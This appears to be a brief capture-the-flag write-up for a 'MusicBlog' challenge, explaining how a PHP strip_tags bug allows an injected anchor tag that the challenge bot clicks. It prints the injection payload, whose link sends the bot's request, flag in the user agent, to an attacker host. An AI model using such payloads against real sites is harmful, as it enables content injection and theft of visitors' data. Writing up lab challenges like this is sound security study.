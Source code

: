 ### MusicBlog

- Using the php [bug](https://bugs.php.net/bug.php?id=78814), bypass strip_tags to inject an `a` tag.
- The bot clicks the element with the id `like`, so inject an `a` tag with the id=like.
- Flag is in the user agent, so the bot clicking our link will give us the flag:

```
[[lol"></audio><a/udio id="like" href="http://hax.perfect.blue:6969/lel">HAXXX<audio src="]]
```
